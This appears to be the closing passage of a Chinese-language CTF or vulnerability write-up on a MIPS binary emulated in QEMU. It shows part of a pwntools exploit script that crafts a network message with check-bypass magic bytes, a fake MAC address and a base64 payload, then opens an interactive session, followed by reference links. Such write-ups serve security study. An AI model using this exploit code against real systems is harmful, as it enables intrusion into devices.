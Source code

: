 ```
    msgFromClient += b'1234'
    # mac
    # 52 54 00 12 34 56
    #msgFromClient += b'\x52\x54\x00\x12\x34\x56'
    msgFromClient += p8(10)
    msgFromClient += p8(2) # magic to bypass 1 check at 0x402684
    msgFromClient += p8(0) # bypass at 0x40268C
    msgFromClient += p8(4)
    msgFromClient += b'a'*0x4
    msgFromClient += b'8'
    # msgFromClient += b'\x52\x54\x00\x12\x34\x56' # maybe fake mac address
    msgFromClient += b'\x00\x15\x5d\xb3\x71\x6a' # maybe fake mac address
    msgFromClient += p16(0) # v8
    msgFromClient += p32(0x8E) # v17
    msgFromClient += b'x'*0x40  # username
    msgFromClient += base64.b64encode(payload)
    io.sendline(msgFromClient)

pwn()
io.interactive()
```

官方[exp](https://mp.weixin.qq.com/s/Wb7SMy8AHtiv71kroHEHsQ)

## 其他

之前翻到另外一个镜像的仓库，但是这个仓库里的镜像不能起起来，可能是我用法没用对

> https://people.debian.org/~jcowgill/qemu-mips/

## 参考

> https://www.freebuf.com/vuls/228726.html
> https://people.debian.org/~aurel32/qemu/mips/
> https://gist.github.com/extremecoders-re/3ddddce9416fc8b293198cd13891b68c
